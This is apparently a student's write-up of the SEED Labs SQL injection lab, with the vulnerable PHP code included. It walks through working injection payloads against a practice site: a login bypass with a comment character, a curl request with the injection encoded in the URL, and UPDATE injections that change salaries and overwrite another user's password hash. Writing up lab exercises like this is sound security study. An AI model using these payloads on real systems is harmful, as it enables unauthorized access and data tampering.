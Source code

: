 # SQL-INJECTION
<table>
  <thead>
    <tr>
      <th>Title</th>
      <th>Author</th>
      <th>Date</th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td>SQL Injection Attack Seed Lab Ubunto 16.04</td>
      <td>Nayab Asif</td>
      <td>30-10-2021</td>
    </tr>
  </tbody>
</table>
<h1>Task 1</h1>
<h3>Login MYSQL:</h3>
<p>mysql -u root -pseedubuntu<br>
   mysql> use Users;<br>
   mysql> show tables;<br>
</p>
<h3>Use Such a SQL Query:</h3>
<p>select * from credential where Name = 'Alice';</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h1>Task 2</h1>
<h2>Task 2.1</h2>
<ul>
<li>USERNAME: "Admin' #"</li>
<li>PASSWORD: "*" whatever the password was</li> 
</ul>
<h3>It will result in a SQL Query as:</h3>
<p>SELECT id, name, eid, salary, birth, ssn, address, email,<br>
   nickname, Password<br> 
   FROM credential<br>
   WHERE name= 'Admin' #' and Password='*'
   </p>
<p>Then statement after <code>#</code> will bi regarded as comments. So we can login in as <code> Admin</code>.</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.2</h2>
<pre>
<code>
curl 'http://www.seedlabsqlinjection.com/unsafe_home.php?username=Admin%27%20%23Password=xyz'
</code>
</pre>
<p>It will return a bunch of <code>html</code>code. When exporting outputs to file by<code> > temp.html</code>and open it</p>
<p>Screen shoot is in SQL Injection Folder</p>
<h2>Task 2.3</h2>
<p>We neeed to delete such a statement to append a row to current database:</p>
<code>DELETE credential where name='ted';
</code><br>
<p>So constructed:</p>
<ul>
<li>USERNAME: <code>" '1=1; DELETE credential where name='ted';#"</code></li>
<li>PASSWORD: <code>" "</code> (Remain Blank)</li> 
</ul>
<p>It fails and alerts with a syntax error:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Because in PHP's <code>mysqli</code> extension, which invokes <code>mysqli::query</code>  API to handle SQL statements, it doesn't support for multiple queries within the same run. Of course, the design of this API attributes to the concern of SQL injection.</p>
<h1>Task 3</h1>
<p>It's hard to find the navigation buttons on this website <br>(<a href="http://www.SeedLabSQLInjection.com" rel="nofollow">www.SeedLabSQLInjection.com</a>).
<p>In order to edit the profile, please log in and then jump to the link address: <br><a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a> by Hand.</p>
<h2>Task 3.1</h2>
<p>Log in with Alice's username and password, enter <br> <a href="http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php" rel="nofollow">http://www.seedlabsqlinjection.com/unsafe_edit_frontend.php</a></p>
<p>Modify Phone Number as <code>', Salary=500000</code> and save</p>
<h2>Task 3.2</h2>
<p>Log in with username <code>Boby' #</code>  and arbitrary password, open his profile edit page.</p>
<p>Fill in with:</p>
<p>Phone Number: <code>', Salary=1</code></p>
<p>And keep other properties unchanged. Submit the modification.</p>
<p>Now, you can see:</p>
<p>Screen shoot is in SQL Injection Folder</p>
<p>Log-in as Alice</p>
<p>Assume instead of logging in as Boby using inject method, We keep the login in as Alice, and open Alice's profile edit page.</p>
<p>We should change the Phone Number as</p> 
<pre><code>', Salary=1 where name='Boby' #</code></pre>
<h2>Task 3.3</h2>
<p>Of course, the simplest approach is to log-in as Boby like <code>Task 3.2</code> and change the password.</p>
<p>If we must do all things and keep log-in with Alice's own account. We might face such an issue:</p>
<p>According to code below in <code>unsafe_edit_backend.php</code>, if <strong>Password</strong> is to be updated, the session's <code>pwd</code> will be updated first, which makes our user authentication invalid immediately and the modification dropped. So we cannot modify the password field directly using Alice's authentication.</p>
<pre><span class="pl-s1"><span class="pl-c1">$</span>conn</span> = <span class="pl-en">getDB</span>();
<span class="pl-c">// Don't do this, this is not safe against SQL injection attack</span>
<span class="pl-s1"><span class="pl-c1">$</span>sql</span>=<span class="pl-s">""</span>;
<span class="pl-k">if</span>(<span class="pl-s1"><span class="pl-c1">$</span>input_pwd</span>!=<span class="pl-s">''</span>){
<span class="pl-c">// In case password field is not empty.</span>
<span class="pl-s1"><span class="pl-c1">$</span>hashed_</span> = <span class="pl-en">sha1</span>(<span class="pl-s1"><span class="pl-c1">$</span>input_pwd</span>);
<span class="pl-c">//Update the password stored in the session.</span>
<span class="pl-s1"><span class="pl-c1">$</span><span class="pl-c1">_SESSION</span></span>[<span class="pl-s">'pwd'</span>]=<span class="pl-s1"><span class="pl-c1">$</span>hashed_pwd</span>;
<span class="pl-s1"><span class="pl-c1">$</span>sql</span> = <span class="pl-s">"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',Password='$hashed_pwd',PhoneNumber='$input_phonenumber' where ID=$id;"</span>;
}<span class="pl-k">else</span>{
<span class="pl-c">// if passowrd field is empty.</span>
<span class="pl-s1"><span class="pl-c1">$</span>sql</span> = <span class="pl-s">"UPDATE credential SET nickname='$input_nickname',email='$input_email',address='$input_address',PhoneNumber='$input_phonenumber' where ID=$id;"</span>;
}
<span class="pl-s1"><span class="pl-c1">$</span>conn</span>-&gt;<span class="pl-en">query</span>(<span class="pl-s1"><span class="pl-c1">$</span>sql</span>);
<span class="pl-s1"><span class="pl-c1">$</span>conn</span>-&gt;<span class="pl-en">close</span>();
<span class="pl-en">header</span>(<span class="pl-s">"Location: unsafe_home.php"</span>);
<span class="pl-en">exit</span>();</pre>
<p>We should do all things in <strong>Phone Number</strong> field.</p>
<p>Assume we want to change Boby's password as <code>tedwashere</code>. First, we should get SHA1 value of our new password via some <a href="http://www.sha1-online.com/" rel="nofollow">online tool</a> as</p>
<pre><code>1b3263246794fe4094be7ae99e21b34454d9676f
</code></pre>
<p>Then construct <strong>Phone Number</strong> as:</p>
<pre><code>', password='1b3263246794fe4094be7ae99e21b34454d9676f' where name='Boby' #
</code></pre>
<p>and save. Now, the change works. You can log in with username <code>Boby</code> and password <code>tedwashere</code>.</p>
<p>Verify:</p>
<p>Screen shoot is in SQL Injection Folder</p>
